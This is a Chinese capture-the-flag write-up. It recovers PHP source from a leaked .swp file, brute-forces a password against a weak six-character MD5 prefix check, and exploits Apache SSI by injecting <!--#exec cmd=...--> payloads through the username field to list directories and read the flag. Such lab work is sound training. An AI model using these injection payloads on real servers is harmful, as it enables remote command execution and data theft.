


# 知识点:

# 1.文件扫描。swp源码泄露

# 2. Apache SSI 远程命令执行漏洞

https://www.cnblogs.com/yuzly/p/11226439.html


# 1.目录扫描得到/idnex.php.swp

# 访问得到源码：

```javascript
<?php
   ob_start();
   function get_hash(){
      $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
      $random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
      $content = uniqid().$random;
      return sha1($content);
   }
    header("Content-Type: text/html;charset=utf-8");
// ***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
         ***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
         echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";

    }else
    {
   ***
    }
   ***
?>
```


# 2. 发现不管username为任何值，只要password的MD5值的前6位为：6d0bc1即可登陆成功

脚本爆破符合的password:

```javascript
<?php

$i=0;
while (1){
    $i++;
    if(substr(md5($i),0,6)==='6d0bc1'){
        echo $i;
        break;
    }
}
```


# 3. 登陆之后发现响应头有信息




联想到Apache SSI 远程命令执行漏洞，apache开启SSI与CGI支持,我们就可以上传shtml,利用<!--#exec cmd=”id” -->语法执行命令。


# 4. 访问响应头文件得到




会将username回显,说明也许将username存入shtml文件


# 5. payload:

```javascript
username=<!--#exec cmd="ls"-->&password=2020666
```


```javascript
username=<!--#exec cmd="ls ../"-->&password=2020666
```


```javascript
username=<!--#exec cmd="cat ../flag_990c66bf85a09c664f0b6741840499b2"-->&password=2020666
```

